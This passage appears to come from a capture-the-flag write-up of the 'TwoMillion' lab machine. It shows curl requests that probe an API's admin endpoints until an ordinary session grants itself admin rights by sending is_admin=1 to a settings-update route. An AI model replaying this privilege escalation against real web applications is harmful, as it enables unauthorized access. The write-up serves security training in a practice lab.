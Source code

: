 ```
      "POST": {
        "/api/v1/user/register": "Register a new user",
        "/api/v1/user/login": "Login with existing user"
      }
    },
    "admin": {
      "GET": {
        "/api/v1/admin/auth": "Check if user is admin"
      },
      "POST": {
        "/api/v1/admin/vpn/generate": "Generate VPN for specific user"
      },
      "PUT": {
        "/api/v1/admin/settings/update": "Update user settings"
      }
    }
  }
}
```

I'm going guess that the admin part is the most interesting, so I'll start with that.

```
$ curl -s -H "Cookie: PHPSESSID=[redacted]" http://2million.htb/api/v1/admin/auth
{"message":false}
```

What about `/api/v1/admin/settings/update`? I execute one command at the time and amend my request until it's accepted by the webserver:

```
$ curl -X PUT -s -H "Cookie: PHPSESSID=[redacted]" http://2million.htb/api/v1/admin/settings/update
{"status":"danger","message":"Invalid content type."}

$ curl -X PUT -H "content-type: application/json" -s -H "Cookie: PHPSESSID=[redacted]" http://2million.htb/api/v1/admin/settings/update
{"status":"danger","message":"Missing parameter: email"}

$ curl -X PUT -H "content-type: application/json" -s -H "Cookie: PHPSESSID=[redacted]" -d '{"email": "foo@bar.com"}' http://2million.htb/api/v1/admin/settings/update
{"status":"danger","message":"Missing parameter: is_admin"}

$ curl -X PUT -H "content-type: application/json" -s -H "Cookie: PHPSESSID=[redacted]" -d '{"email": "foo@bar.com", "is_admin": true}' http://2million.htb/api/v1/admin/settings/update
{"status":"danger","message":"Variable is_admin needs to be either 0 or 1."}

$ curl -X PUT -H "content-type: application/json" -s -H "Cookie: PHPSESSID=[redacted]" -d '{"email": "foo@bar.com", "is_admin": 1}' http://2million.htb/api/v1/admin/settings/update
{"id":13,"username":"foobar","is_admin":1}

$ curl -s -H "Cookie: PHPSESSID=[redacted]" http://2million.htb/api/v1/admin/auth
{"message":true}
```
